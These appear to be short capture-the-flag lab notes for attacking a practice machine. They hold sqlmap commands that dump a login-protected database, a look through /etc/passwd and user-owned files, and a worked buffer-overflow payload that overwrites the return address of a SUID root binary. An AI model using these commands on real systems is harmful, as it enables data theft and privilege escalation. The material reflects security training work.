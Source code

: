 sqlmap -u url --forms
sqlmap -u http://10.10.33.24/administrator.php --dump --data="username=admin&password=admin"  -> to get the data from the dbs

--dbs -> to get info about databases
-D databasename --tables -> to get tables in that database
-D databasename -T tablename --dump -> dump data from the table

check /etc/passwd to check whether there are accounts 

cd /
find / -user pingu 2>/dev/null

_suid file_
/opt/secret/root

gdb /opt/secret/root
r < <(cyclic 50)
cyclic -l 0x6161616c

python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
